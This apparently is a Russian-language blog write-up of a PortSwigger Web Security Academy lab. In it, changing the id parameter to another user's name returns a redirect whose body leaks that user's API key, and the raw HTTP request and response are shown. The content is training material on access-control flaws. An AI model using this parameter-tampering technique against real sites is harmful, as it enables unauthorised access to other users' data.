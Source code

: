 ```yaml
---
title: "User ID controlled by request parameter with data leakage in redirect"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect"
classes: wide
---
```


Для прохождения лабы нужно получить `API` ключь пользователя `carlos`. Даны креды `wiener`:`peter`.

```
https://0aae00b404d33de580dfd04300790011.web-security-academy.net/
```

## Solution

Войду в ЛК. 

У меня вот такой `URL`: `https://0aae00b404d33de580dfd04300790011.web-security-academy.net/my-account?id=wiener`.

Сразу поробую подставить `carlos` вместо `wiener`. Получил странный результат. Меня перекинуло на страницу `/login`. Посмотрю на это в `Burp`:

```http
GET /my-account?id=carlos HTTP/2
Host: 0aae00b404d33de580dfd04300790011.web-security-academy.net
Cookie: session=q5PH1quh4vnGihutrb5yzLpj33HLy6e3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Ответ выглядит следующим образом:

```http
HTTP/2 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3655

...
```

После чего перенаправляет на `/login`. Если открыть `HTML`, то в нем можно найти следующее:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_data_leakage_in_redirect/1.png){: height="200" .align-center}

Видимо веб-сервер отдает нам страницу, а затем перенаправляет. Попробую сдать данный `API`-ключ: 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_data_leakage_in_redirect/2.png){: height="200" .align-center}

Да, это был он)
